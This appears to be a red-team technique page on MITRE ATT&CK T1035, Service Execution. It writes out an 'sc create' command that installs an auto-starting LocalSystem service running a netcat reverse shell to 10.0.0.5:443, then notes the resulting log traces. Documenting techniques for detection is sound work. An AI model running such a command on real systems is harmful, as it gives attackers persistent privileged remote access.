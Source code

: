 ```yaml
---
description: 'Code Execution, Privilege Escalation'
---
```


# T1035: Service Execution

## Execution

Creating an evil service with a netcat reverse shell:

{% code title="attacker@victim" %}
```csharp
C:\> sc create evilsvc binpath= "c:\tools\nc 10.0.0.5 443 -e cmd.exe" start= "auto" obj= "LocalSystem" password= ""
[SC] CreateService SUCCESS
C:\> sc start evilsvc
```
{% endcode %}

## Observations

The reverse shell lives under services.exe as expected:

![](../../.gitbook/assets/services-nc.png)

Windows security, application, Service Control Manager and sysmon logs provide some juicy details:

![](../../.gitbook/assets/services-logs.png)

![](../../.gitbook/assets/services-shell.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1035" caption="" %}


